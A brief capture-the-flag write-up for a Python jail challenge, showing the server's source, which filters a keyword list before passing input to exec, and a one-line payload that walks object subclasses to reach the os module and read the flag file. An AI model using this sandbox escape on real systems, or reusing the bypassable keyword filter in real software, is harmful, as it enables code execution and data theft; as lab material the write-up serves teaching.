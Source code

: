 The challenge is composed of a python escape shell. When connecting to the server you are dropped into a python shell, but there are restrictions to escaping.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~/$ nc prob.vulnerable.kr 20001
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
========================================================================
RUN
>>> o = {x.__name__:x for x in object.__subclasses__()}['StreamReaderWriter'].__init__.__globals__['sys'].modules['o'+'s'];o.spawnlp(o.P_WAIT, 'cat', 'cat', './home/python_jail/flag')
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
